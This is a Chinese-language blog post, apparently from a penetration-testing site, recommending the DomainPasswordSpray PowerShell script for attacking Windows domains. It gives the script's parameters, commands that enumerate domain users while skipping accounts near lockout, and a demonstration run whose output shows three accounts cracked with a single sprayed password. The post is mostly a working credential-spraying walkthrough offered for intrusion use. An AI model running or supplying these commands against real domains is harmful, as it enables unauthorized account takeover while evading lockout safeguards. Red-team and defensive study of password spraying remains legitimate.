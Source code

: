 ```yaml
---
layout: post
title:  "Windows域渗透 - 用户密码枚举"
date:   2018-05-02
categories: 内网渗透
permalink: /archivers/2018-05-02/1
description: "推荐一个Powershell脚本"
---
```

推荐一个Powershell脚本
<!--more-->

## 0x00 前言

在进行Windows域渗透的时候，面对庞大的用户账号，不知该从何下手，扫描网络服务有怕搞出大动静，肿么办呢？

## 0x01 Powershell

目前已经有很多Powershell集合脚本，用于域渗透简直舒爽

今天推荐一款名字叫`DomainPasswordSpray.ps1`的脚本，主要原理是先来抓取域用户账号，然后指定密码字典进行域认证。认证通过的就是密码正确的了。

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。

    
描述：该模块主要用于从域中收集用户列表。

* 参数： `Domain` 指定要测试的域名
* 参数： `RemoveDisabled` 尝试从用户列表删除禁用的账户  
* 参数： `RemovePotentialLockouts` 删除锁定账户 
* 参数： `UserList` 自定义用户列表(字典)。 如果未指定，这将自动从域中获取
* 参数： `Password` 指定单个密码进行口令测试
* 参数： `PasswordList` 指定一个密码字典
* 参数： `OutFile` 将结果保存到某个文件
* 参数： `Force` 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。
    
`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

 
`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x00.png
[0x01]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x01.png
[0x02]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x02.png
